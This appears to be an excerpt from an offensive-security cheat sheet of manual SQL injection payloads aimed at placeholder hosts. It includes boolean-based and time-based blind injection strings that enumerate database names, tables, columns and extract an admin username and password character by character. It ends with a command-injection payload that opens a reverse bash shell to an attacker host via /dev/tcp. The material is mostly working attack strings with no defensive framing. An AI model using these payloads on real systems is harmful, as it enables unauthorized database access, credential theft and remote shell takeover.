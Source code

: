 ### Manual Blind Authentication Bypass SQL Injection

> https://<RHOST>/article?id=3

```c
0 SELECT * FROM users WHERE username='%username%' AND password='%password%' LIMIT 1;
```

### Manual BooleanBased Blind SQL Injection

> https://<RHOST>/checkuser?username=admin

```c
admin123' UNION SELECT 1;--    # value is false
admin123' UNION SELECT 1,2;--    # value is false
admin123' UNION SELECT 1,2,3;--    # value changed to true
admin123' UNION SELECT 1,2,3 WHERE database() LIKE '%';--
admin123' UNION SELECT 1,2,3 WHERE database() LIKE 's%';--    # database name starts with "s"
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = '<DATABASE>' AND table_name='users';--    # enumerating tables
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE table_schema='<DATABASE>' AND table_name='users' AND column_name LIKE 'a%';    # enumerating columns
admin123' UNION SELECT 1,2,3 FROM users WHERE username LIKE 'a%    # query for a username which starts with "a"
admin123' UNION SELECT 1,2,3 FROM users WHERE username LIKE 'ad%
admin123' UNION SELECT 1,2,3 FROM users WHERE username LIKE 'adm%
admin123' UNION SELECT 1,2,3 FROM users WHERE username LIKE 'admi%
admin123' UNION SELECT 1,2,3 FROM users WHERE username LIKE 'admin%
admin123' UNION SELECT SLEEP(5),2 FROM users WHERE username='admin' AND password LIKE '1%';--
admin123' UNION SELECT SLEEP(5),2 FROM users WHERE username='admin' AND password LIKE '12%';--
admin123' UNION SELECT SLEEP(5),2 FROM users WHERE username='admin' AND password LIKE '123%';--
admin123' UNION SELECT SLEEP(5),2 FROM users WHERE username='admin' AND password LIKE '1234%';--
```

### Manual Time-Based Blind SQL Injection

> https://<RHOST>/analytics?referrer=<RHOST>

```c
admin123' UNION SELECT SLEEP(5);--
admin123' UNION SELECT SLEEP(5),2;--    # the query created a 5 second delay which indicates that it was successful
admin123' UNION SELECT SLEEP(5),2 WHERE database() LIKE 'u%';--
admin123' UNION SELECT SLEEP(5),2 WHERE table_schema='users' and column_name LIKE 'a%';--
admin123' UNION SELECT SLEEP(5),2 WHERE table_schema='users' and column_name LIKE 'ad%';--
admin123' UNION SELECT SLEEP(5),2 WHERE table_schema='users' and column_name LIKE 'adm%';--
admin123' UNION SELECT SLEEP(5),2 WHERE table_schema='users' and column_name LIKE 'admi%';--
admin123' UNION SELECT SLEEP(5),2 WHERE table_schema='users' and column_name LIKE 'admin%';--
admin123' UNION SELECT SLEEP(5),2 FROM users WHERE username='admin' AND password LIKE 'a%';--
```

### SQL Command Injection

```c
$ ls -l&host=/var/www
$ command=bash+-c+'bash+-i+>%26+/dev/tcp/<LHOST>/<LPORT>+0>%261'%26host=
```
